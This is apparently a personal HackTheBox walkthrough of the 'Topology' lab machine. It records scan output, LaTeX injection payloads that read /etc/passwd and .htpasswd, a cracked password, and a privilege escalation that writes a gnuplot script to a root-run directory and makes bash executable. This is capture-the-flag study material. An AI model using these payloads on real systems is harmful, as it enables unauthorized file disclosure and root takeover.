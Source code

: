  #HackTheBox #easy #linux
# Enum
## nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
```

## gobuster dir
/css                  (Status: 301) [Size: 310] [--> http://topology.htb/css/]
/images               (Status: 301) [Size: 313] [--> http://topology.htb/images/]
/javascript           (Status: 301) [Size: 317] [--> http://topology.htb/javascript/]
/portraits            (Status: 301) [Size: 316] [--> http://topology.htb/portraits/]

## gobuster vhost
-# gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://topology.htb/ -t 50 --append-domain
	Found: stats.topology.htb Status: 200 [Size: 108]
	Found: dev.topology.htb Status: 401 [Size: 463]

## nmap
─# nmap -Pn -sS -sC -sV -v latex.topology.htb
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
	|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
	|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
	80/tcp open  http    Apache httpd 2.4.41
	|_http-server-header: Apache/2.4.41 (Ubuntu)
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	| http-ls: Volume /
	|   maxfiles limit reached (10)
	| SIZE  TIME              FILENAME
	| -     2023-01-17 12:26  demo/
	| 1.0K  2023-01-17 12:26  demo/fraction.png
	| 1.1K  2023-01-17 12:26  demo/greek.png
	| 1.1K  2023-01-17 12:26  demo/sqrt.png
	| 1.0K  2023-01-17 12:26  demo/summ.png
	| 3.8K  2023-01-17 12:26  equation.php
	| 662   2023-01-17 12:26  equationtest.aux
	| 17K   2023-01-17 12:26  equationtest.log
	| 0     2023-01-17 12:26  equationtest.out
	| 28K   2023-01-17 12:26  equationtest.pdf
	|_
	|_http-title: Index of /


## Find in wep
lklein@topology.htb

# Exploit
## latex.topology.htb exploit

```
\newread\file \openin\file=/etc/passwd \read\file to\line \text{\line} \closein\file
```
![[Pasted image 20230616093212.png]]

```
\newread\file \openin\file=/var/www/dev/.htaccess \read\file to\line \text{\line} \closein\file
```
![[Pasted image 20230617004941.png]]

```
$ \lstinputlisting{/var/www/dev/.htpasswd} $
```
![[Pasted image 20230617101616.png]]

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/htb]
└─# john vdaisleyHash -wordlist=/usr/share/wordlists/rockyou.txt
creds : vdaisley
```
calculus20
```

**htpasswd files**
username:$apr1$1f5oQUl4$21lLXSN7xQOPtNsj5s4Nk/
password         (username) 

username:$apr1$uUMsOjCQ$.BzXClI/B/vZKddgIAJCR.
foo              (username) 

## PrivEsc
vdaisley@topology:~$ /tmp/pspy64
```
CMD: UID=0     PID=1764   | /bin/sh -c /opt/gnuplot/getdata.sh 
CMD: UID=0     PID=1763   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
CMD: UID=0     PID=1762   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;
```

vdaisley@topology:/tmp$ echo 'system "chmod +x /bin/bash"' > /opt/gnuplot/shellbash.plt

vdaisley@topology:~$ bash -p
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cat /root/root.txt
```
95128b205df80f11e39f599c9816f96b
```
